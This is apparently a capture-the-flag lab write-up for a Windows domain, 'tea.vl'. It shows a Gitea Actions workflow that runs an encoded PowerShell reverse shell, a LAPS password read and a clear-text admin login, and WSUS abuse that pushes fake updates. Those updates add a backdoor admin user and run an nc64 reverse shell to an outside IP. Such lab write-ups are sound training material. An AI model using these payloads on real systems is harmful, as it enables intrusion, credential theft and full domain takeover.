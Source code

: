 
![](Tea_Cover.png)


## INFO

```
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tea.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server


[*] Windows Server 2022 Build 20348 x64 (name:SRV) (domain:tea.vl) (signing:False) (SMBv1:False)

PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
```

Cool ! SRV got Git-Tea on port 3000. Lets Explore ! 

![](Tea_Web.png)




## GITEA_ACTIONS

Register as normal user , and go to settings . Find Runners in Action Tab.

What are actions ? 
`Gitea doesn't run the jobs itself, but delegates the jobs to runners. The runner of Gitea Actions is called [act runner].`

Simply , Its like cron-jobs , You give set of action / jobs to the runners and on the background it's gonna do the job.


![](Tea_Runner_Shell.png)

Now , As there's a action runner , we need to take leverage of that to get a shell on the box. 

In order to do that : 
1--> Create a New-Repository. Then , Go to the settings of the repository and update Enable Repository Actions.

![](Tea_Enable.png)


2 --> Make a new file --> .gitea/workflows/reverse.yaml and commit the change.


![](Tea_Reverse_yaml.png)

```
name: Reverse
run-name: ${{ gitea.actor }} getting reverse shell
on: [push]
jobs:
    Shell:
        runs-on: windows-latest
        steps:
        - name: Reverse_Shell
          run: powershell -e <Reverse-Shell>
```



3 --> Wait for the Runner to complete the action and get the shell.

![](Tea_Runner_Shell.png)


Cool ! We got shell as thomas.wallace. Lets Use a C2 for persistence and proper shell.



## LAPS 

After some enumeration , found that LAPS is installed on the system. 

 [PrivescCheck](https://github.com/itm4n/PrivescCheck) This script would find that !
```
The Local Administrator Password Solution (LAPS) automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure.
```


Read LAPS Password.
```
PS > Get-LapsADPassword -Identity SRV.tea.vl -AsPlainText
```

![](Tea_Laps.png)

We got clear text password of the Administrator. Login with the administrator password.

```
└─# evil-winrm -i 10.10.213.182 -u administrator -p '3);Ro$4}LH%50K'
```

```
For persistence , we can prevent a machine from updating its password by setting the expiration date into the future.
```



## D.A via WSUS


```
Windows Server Update Services [WSUS], is a computer program and network service that enables administrators to manage the distribution of updates and hotfixes released for Microsoft products to computers in a corporate environment. WSUS downloads these updates from the Microsoft Update website and then distributes them to computers on a network.
```

Simply, It updates and hotfixes all the computers that are managed by WSUS in the network from a single server, so we don't have to visit all the computers and update them one-by-one.


```
.\SharpWSUS.exe inspect
```

![](Tea_Wsus.png)


In this scenario , the WSUS is configured / assigned only to the DC not the SRV where we have admin privilege right now. But as we are administrator we can abuse this. For that we need tools !

-->  [WSUSpendu](https://github.com/alex-dengx/WSUSpendu) and [SharpWSUS](https://github.com/h4rithd/PrecompiledBinaries/tree/main/SharpWSUS). These tools can allow us to distribute fake Windows updates with our set of commands.

--> [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) 

Upload WSUSpendu and Psexec to the victim PC !

```
.\WSUSpendu.ps1 -Inject -PayloadFile C:\users\administrator\documents\PsExec64.exe -PayloadArgs '-accepteula -s -d cmd.exe /c "net user hacker Password123@ /add && net localgroup administrators hacker /add"' -ComputerName dc.tea.vl
```
This tool is gonna approve the req. itself !

Wait for 5 minutes , then login as hacker in the domain controller.

![](Tea_DC_.png)




Same exploit with SharpWSUS.

Request the update.
```
.\SharpWSUS.exe create /payload:"C:\Users\administrator\Documents\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c ' C:\Users\administrator\Documents\nc64.exe -e cmd 10.8.0.148 1337 '" /title:"LocalUpdate"
```

 Approve the request.
```
.\SharpWSUS.exe approve /updateid:1a74db88-3a8a-4cbf-ad39-785c09c4a843 /computername:dc.tea.vl /groupname:"Pwned"
```


The DC's pwned !